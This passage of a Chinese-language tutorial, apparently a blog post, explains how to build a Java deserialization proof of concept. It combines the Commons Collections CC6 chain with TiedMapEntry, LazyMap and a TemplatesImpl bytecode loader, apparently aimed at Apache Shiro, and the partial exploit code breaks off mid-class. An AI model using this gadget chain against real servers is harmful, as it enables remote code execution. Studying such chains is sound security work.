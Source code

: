 ```java
  	// ...
```

我们在分析CC6利用链的时候，我们关注的是`this.map.get(this.key);`里面map触发get方法，对于里面的key我们只是随便传了个值并没去管他

由于不能使用数组，所以`ChainedTransformer`就不能用了，那么这里我们自然也用不上`ConstantTransformer`了，那么我们就缺少了一个恶意对象和恶意对象参数的连接效果的东西了

而这里恰好，TiedMapEntry的getValue方法会传入key，如果Map是LazyMap的话，我们会惊喜的发现，key会直接传入，执行transform函数，这个效果就和`ConstantTransformer`一样的，作为一个恶意对象传递的功能，所以我们只需要把恶意对象传入作为key就可以了

![image-20221004123455407](https://tuchuang.huamang.xyz/img/image-20221004123455407.png)

## 构造POC

那么现在我们就来构造POC了，这里首先是参考前面的CC3利用TemplatesImpl去加载出一个恶意对象

```java
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```

然后这里依然是用CC6的来接，构造faketransformer来防止构造时触发链子，但是和CC6的不一样，不能用ChainedTransformer了，所以得手动构造个无害transformer对象

```java
Transformer fakeTransformer = new ConstantTransformer(1);
```

然后就是加上CC6的链子了，具体看代码注释

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class attack2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        // faketransformer防止构造时触发
```